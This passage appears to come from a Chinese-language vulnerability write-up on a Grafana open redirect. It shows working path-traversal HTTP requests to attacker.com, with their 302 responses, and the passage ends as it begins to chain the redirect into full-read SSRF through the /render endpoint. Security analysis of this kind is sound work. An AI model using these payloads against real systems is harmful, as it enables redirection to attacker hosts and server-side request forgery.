 在 opt.FileSystem.Open()  
 — >  
- /public/\attacker.com/?/../../../..  
 将被解析为 ""  
 ->  /staticfiles/etc/etc/  
+""  
 有效文件夹。  
  
在 http.redirect（）  
 →  
- /public/\attacker.com/?/../../../..  
 --> 后面的任何内容 ?  
 都被视为查询字符串，而不是作为路径的一部分进行解析。  
  
请求 ？  
 -> %3f  
：  
```
GET /public/\attacker.com/%3f/../.. HTTP/1.1Host: 192.168.100.2:3000
```  
```
HTTP/1.1 302 FoundLocation: /public/\attacker.com/?/../../
```  
# 最终 Payload  
  
该 URL /public/\attacker.com/?/../../../..  
 需要解析为以 /\  
开头的完整 URL。  
  
使用路径： /public/../\attacker.com/?/../../../..  
,当 http.Redirect（）  
 解析路径 时，会删除 /public  
 部分。  
```
GET /public/../\attacker.com/%3f/../../../../../.. HTTP/1.1Host: 192.168.100.2:3000
```  
```
HTTP/1.1 302 FoundLocation: /\attacker.com/?/../../../../../../
```  
  
流程示意图：  
  
![file](https://mmbiz.qpic.cn/sz_mmbiz_png/hZj512NN8jkOicLibdIFad3KVzHv70ud4fp3PK9hIGQibLiaBH9aSbuDfVVzuAS7xMUXGp5iczO0pn5rUkCu9lsHb7A/640?wx_fmt=png&from=appmsg "")  
  
# 完整读取 SSRF  
  
开放重定向本身不会产生任何严重的安全影响，因此需要将其与另一个功能链接起来。  
  
Grafana 有一个名为 /render  
的端点，用于根据提供的路径生成图像。  
```
// renderingr.Get("/render/*", requestmeta.SetSLOGroup(requestmeta.SLOGroupHighSlow), reqSignedIn, hs.RenderHandler)
```  
  